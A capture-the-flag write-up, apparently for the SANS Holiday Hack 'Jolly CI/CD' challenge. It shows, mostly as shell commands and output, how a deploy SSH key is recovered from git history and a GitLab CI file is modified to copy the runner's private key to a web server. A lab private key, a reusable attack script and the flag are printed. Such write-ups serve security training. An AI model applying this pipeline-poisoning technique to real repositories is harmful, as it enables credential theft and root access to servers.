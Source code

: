 ```yaml
---
sidebar_position: 3
---
```


# Jolly CI/CD

## Welcome screen

```bash
Greetings Noble Player, 

Many thanks for answering our desperate cry for help!

You may have heard that some evil Sporcs have opened up a web-store selling 
counterfeit banners and flags of the many noble houses found in the land of 
the North! They have leveraged some dastardly technology to power their 
storefront, and this technology is known as PHP! 

***gasp*** 

This strorefront utilizes a truly despicable amount of resources to keep the 
website up. And there is only a certain type of Christmas Magic capable of 
powering such a thing… an Elfen Ring!

Along with PHP there is something new we've not yet seen in our land. 
A technology called Continuous Integration and Continuous Deployment! 

Be wary! 

Many fair elves have suffered greatly but in doing so, they've managed to 
secure you a persistent connection on an internal network. 

BTW take excellent notes! 

Should you lose your connection or be discovered and evicted the 
elves can work to re-establish persistence. In fact, the sound off fans
and the sag in lighting tells me all the systems are booting up again right now.  

Please, for the sake of our Holiday help us recover the Ring and save Christmas!
```

## Helpfull hints

```
Commiting to Mistakes
From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! git log can show code skeletons.
```

```
Switching Hats
From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.
```

![Git hint](/img/elfen-ring/git-hint.png)


## Hacking CI/CD

From talking to Tinsel Upatree we get a link to a Gitlab repo (see screenshot above). Cloning it: 

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder
Cloning into 'rings-of-powder'...
fatal: unable to update url base from redirection:
  asked for: http://gitlab.flag.net.internal/rings-of-powder/info/refs?service=git-upload-pack
   redirect: http://gitlab.flag.net.internal/users/sign_in
grinchum-land:~$
```

No access here. Trying the full link hinted by Upatree

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 23.07 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
grinchum-land:~$
```

Looking at what I've cloned

```bash
grinchum-land:~/wordpress.flag.net.internal$ git status
fatal: detected dubious ownership in repository at '/home/samways/wordpress.flag.net.internal'
To add an exception for this directory, call:

        git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
grinchum-land:~/wordpress.flag.net.internal$
```

Looking at the Git commit log, there are ususally gold to be found in the log:

```bash
grinchum-land:~/wordpress.flag.net.internal$ git log
.
.
.

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

It appears user "knee-oh" made a happy little accident in commit abdea0ebb21b156c01f7533cea3b895c26198c98 and rectified it in commit e19f653bde9ea3de6af21a587e41e7a909db1ca5. Let's see what accident that was!

```bash
grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
HEAD is now at abdea0e added assets
grinchum-land:~/wordpress.flag.net.internal$ ls -la
total 48
drwxr-xr-x 5 samways users  4096 Dec 11 08:35 .
drwxr-xr-x 1 samways  1002  4096 Dec 11 08:26 ..
drwxr-xr-x 8 samways users  4096 Dec 11 08:36 .git
drwxr-xr-x 2 samways users  4096 Dec 11 08:35 .ssh
-rw-r--r-- 1 samways users 19915 Dec 11 08:24 license.txt
-rw-r--r-- 1 samways users  7401 Dec 11 08:24 readme.html
drwxr-xr-x 6 samways users  4096 Dec 11 08:24 wp-content
```

Oh - look at that! A .ssh folder, what's inside?

```bash
grinchum-land:~/wordpress.flag.net.internal$ ls -la .ssh/
total 16
drwxr-xr-x 2 samways users 4096 Dec 11 08:35 .
drwxr-xr-x 5 samways users 4096 Dec 11 08:35 ..
-rw-r--r-- 1 samways users  411 Dec 11 08:35 .deploy
-rw-r--r-- 1 samways users  102 Dec 11 08:35 .deploy.pub
```

Let's make use of this SSH key

```bash
grinchum-land:~/wordpress.flag.net.internal$ cp -r .ssh $HOME/
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/    
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/.ssh/
grinchum-land:~/wordpress.flag.net.internal$ chmod 644 $HOME/.ssh/.deploy.pub 
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 $HOME/.ssh/.deploy
grinchum-land:~/wordpress.flag.net.internal$ touch $HOME/.ssh/config
```

I had to tell Git which private key to use by creating a config file and putting this as its content:

```
Host gitlab.flag.net.internal
  User git
  Hostname gitlab.flag.net.internal
  IdentityFile ~/.ssh/.deploy
```

Cloning the repository using SSH instead of HTTP:

```bash
grinchum-land:~$ git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
```

Further impersonation, update the Git username and email settings (values grabbed from git log):

```bash
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "knee-oh"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "sporx@kringlecon.com"
```

At this point it was tiresome to reproduce the steps above each time the terminal was reset, so I put my commands in a script to make things more efficient:

```bash
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
cd wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
cp -r .ssh $HOME/
chmod 700 $HOME/    
chmod 700 $HOME/.ssh/
chmod 644 $HOME/.ssh/.deploy.pub 
chmod 600 $HOME/.ssh/.deploy
touch $HOME/.ssh/config
echo -e "Host gitlab.flag.net.internal\n\tUser git\n\tHostname gitlab.flag.net.internal\n\tIdentityFile ~/.ssh/.deploy" >> $HOME/.ssh/config
cd 
mv wordpress.flag.net.internal wordpress.flag.net.internal.bak 
git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
git config --global user.name "knee-oh"
git config --global user.email "sporx@kringlecon.com"
```

Now, here's the meat. Inside the repositoriy there is a file .gitlab-ci.yml 

```bash
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/htm
```

This contains a command to run when deploying. If we look closer at it, it uses a SSH key (/etc/gitlab-runner/hhc22-wordpress-deploy). If we change the file to:

```bash
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal:/var/www/htm
```

The SSH key will be rsynced over to the webserver when the deployment runs. So lets commit the file above and retrieve the SSH key:

```bash
grinchum-land:~/wordpress.flag.net.internal$ wget wordpress.flag.net.internal/hhc22-wordpress-deploy
grinchum-land:~/wordpress.flag.net.internal$ cat hhc22-wordpress-deploy 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3wAAAJiMXr0BjF69
AQAAAAtzc2gtZWQyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3w
AAAEBtNE6sqOFoqkmOhcB/9DgzaQhQRC/bwkAbsBXwqrt/mPwRh1lM6l/lES5Zcxv0UoIV
aiIhfYehTVof3RXQ+2rfAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
grinchum-land:~/wordpress.flag.net.internal$
```

Success! Now ssh into the Wordpress server:

```bash
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 hhc22-wordpress-deploy 
grinchum-land:~/wordpress.flag.net.internal$ ssh root@wordpress.flag.net.internal -i hhc22-wordpress-deploy
root@wordpress:~# ls /
bin  boot  dev  etc  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@wordpress:~# cd /  
root@wordpress:/# cat flag.txt
```

And the flag is: 

![Elfen ring flag](/img/elfen-ring/elfen-ring-flag.png)

Text value: oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT